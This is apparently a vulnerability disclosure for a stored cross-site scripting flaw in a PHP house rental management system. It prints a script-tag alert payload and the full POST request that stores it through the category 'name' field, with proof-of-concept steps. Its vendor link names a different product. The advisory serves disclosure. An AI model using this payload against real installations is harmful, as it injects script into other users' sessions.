




# Best house rental management system project in php Stored Cross-Site Scripting(XSS) vulnerability

Exploit Title: Best house rental management system project in php Stored Cross-Site Scripting(XSS) vulnerability  
Exploit Author: webraybtl@webray.com.cn inc  
Vendor Homepage: https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html  
Software Link: https://www.sourcecodester.com/download-code?nid=17375&title=Best+house+rental+management+system+project+in+php+  
Version: Best house rental management system project in php v1.0

## Description

Persistent XSS (or Stored XSS) attack is one of the three major categories of XSS attacks, the others being Non-Persistent (or Reflected) XSS and DOM-based XSS. In general, XSS attacks are based on the victim’s trust in a legitimate, but vulnerable, website or web application.Best house rental management system project in php does not filter the content correctly at the "name" parameter, resulting in the generation of stored XSS.

#### Payload used:

> <script>alert("a")</script>

```plaintext
POST /ajax.php?action=save_category HTTP/1.1
Host: 192.168.56.128:8080
Content-Type: multipart/form-data; boundary=---------------------------217335298739291867533794032394
Origin: http://192.168.56.128:8080
Priority: u=0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
X-Requested-With: XMLHttpRequest
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.56.128:8080/index.php?page=categories
Cookie: PHPSESSID=l9bepm47dqojg3l0o826l4kcd0
Content-Length: 308

-----------------------------217335298739291867533794032394
Content-Disposition: form-data; name="id"


-----------------------------217335298739291867533794032394
Content-Disposition: form-data; name="name"

<script>alert("a")</script>
-----------------------------217335298739291867533794032394--
```

#### Proof of Concept

1. Visit the home page and enter payload in the username input box. Enter any value for password.

​​

‍

2.After the successful addition, redirecting to the management page will trigger the XSS pop-up window.

​​

Similarly, by sending a post request, you will see the script code stored in the management page.

​​

​​

‍

‍

‍
